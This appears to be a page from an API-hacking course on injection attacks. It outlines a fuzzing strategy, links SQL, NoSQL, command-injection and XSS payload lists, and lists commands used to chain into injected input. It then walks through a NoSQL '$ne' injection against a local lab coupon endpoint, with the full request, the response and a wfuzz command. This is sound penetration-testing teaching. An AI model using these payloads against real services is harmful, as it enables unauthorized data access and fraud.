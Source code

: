 ```yaml
---
title: Injection attacks
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - api
---
```


# Injection Attacks

??? abstract "General index of the course"
    - [Setting up the environment](setting-up-kali.md)
    - [Api Reconnaissance](api-reconnaissance.md).
    - [Endpoint Analysis](endpoint-analysis.md).
    - [Scanning APIS](scanning-apis.md).
    - [API Authorization Attacks](api-authentication-attacks.md).
    - [Exploiting API Authorization](exploiting-api-authorization.md).
	- [Testing for Improper Assets Management](improper-assets-management.md).
    - [Mass Assignment](docs/hackingapis/mass-assignment.md).
    - [Server side Request Forgery](server-side-request-forgery-ssrf.md).
    - [Injection Attacks](injection-attacks.md). 
    - [Evasion and Combining techniques](evasion-combining-techniques.md).
    - [Setting up the labs + Writeups](other-labs.md)

The art of fuzzing is knowing which payload to send in the right request with the right tool.

- Right payload can be narrow with reconnaissance.
- Right requests are those that include user input (+ headers + url paths)
- Right tool depends on strategy in fuzzing.

Yes, when fuzzing we need **a strategy**.

**1**. Identify endpoints (those where client input can interact with a database).

**2**. Fuzzing and analyzing responses.

**3**. Analyze responses:

	- Verbose error message
	- Response code
	- Time in response.

**4**. Identify technolofy, version, services behind, security controls.



## SQL injections

[More aboyut SQL injectios](../webexploitation/sql-injection.md). | [How to perform a manual attack in SQL](../sqli-manual-attack.md) |  [Simple payloads](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/SQL-injection.md) |  [Tools: SQLmap](../sqlmap.md)


## NOSQL injections

[Simple payloads](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/nosql-injection.md). 

API commonly use NOSQL databases due to the fact that they scale well.  These databases have unique structures, modes of querying... Requests will be alike but payloads may vary. 


## Operating System Command Injection

[Simple payloads](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/operating-system-command-injection.md)

Some common operatiing system commands that are used in Injection attacks: 

- ipconfig
- dir
- ver
- whoami
- ifconfig
- ls
- pwd
- whoami

Target:

- URL query string
- Requests parameters
- headers
- requests that throw verbose error messages 

Techniques:

- Pairing multiple commands in a single line.


## XSS  Cross-Site Scripting

[More about Cross-Site Scripting](../webexploitation/cross-site-scripting-xss.md) | [Simple payloads](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/cross-site-scripting-xss.md) 



## Using wfuff

Having this request:

```
POST /community/api/v2/coupon/validate-coupon HTTP/1.1
host: localhost:8888
accept: */*
origin: http://localhost:8888
referer: http://localhost:8888/shop
Connection: close
user-agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
content-type: application/json
Content-Length: 29
sec-fetch-dest: empty
sec-fetch-mode: cors
sec-fetch-site: same-origin
Accept-Encoding: gzip, deflate
accept-language: en-US,en;q=0.5
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJoYXBpaGFja2VyNTU1NUBoYXBpaGFjaGVyLmNvbSIsImlhdCI6MTY3NTY5NjY3NiwiZXhwIjoxNjc1NzgzMDc2fQ.2_B9Rh_kERjiz4J4c4kIRjktNJ3s4jXOPRCJrLlOJrXV5cC-SgYDF3BxcBDzDJTqZTNtS26-fnprUr9bdenAeg
Cache-Control: no-cache
Postman-Token: 5eb2f69b-6f89-460b-a49f-96c12edc9906

{"coupon_code":{"$ne":"-1"} }
```


And this response:

```
HTTP/1.1 200 OK
Server: openresty/1.17.8.2
Date: Mon, 06 Feb 2023 16:05:31 GMT
Content-Type: application/json
Connection: close
Access-Control-Allow-Headers: Accept, Content-Type, Content-Length, Accept-Encoding, X-CSRF-Token, Authorization
Access-Control-Allow-Methods: POST, GET, OPTIONS, PUT, DELETE
Access-Control-Allow-Origin: *
Content-Length: 79

{"coupon_code":"TRAC075","amount":"75","CreatedAt":"2022-11-11T19:22:26.134Z"}
```

We can use wfuzz like this:

```bash
wfuzz -z file,/usr/share/wordlists/nosql.txt -H "Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJoYXBpaGFja2VyNTU1NUBoYXBpaGFjaGVyLmNvbSIsImlhdCI6MTY3NTY5NjY3NiwiZXhwIjoxNjc1NzgzMDc2fQ.2_B9Rh_kERjiz4J4c4kIRjktNJ3s4jXOPRCJrLlOJrXV5cC-SgYDF3BxcBDzDJTqZTNtS26-fnprUr9bdenAeg" -H "Content-Type: application/json" -d "{\"coupon_code\":FUZZ}" --sc 200 -p localhost:8080 http://localhost:8888/community/api/v2/coupon/validate-coupon
# -p localhost:8080 Redirect traffic to BurpSuite
# --sc 200 Show code response 200
```

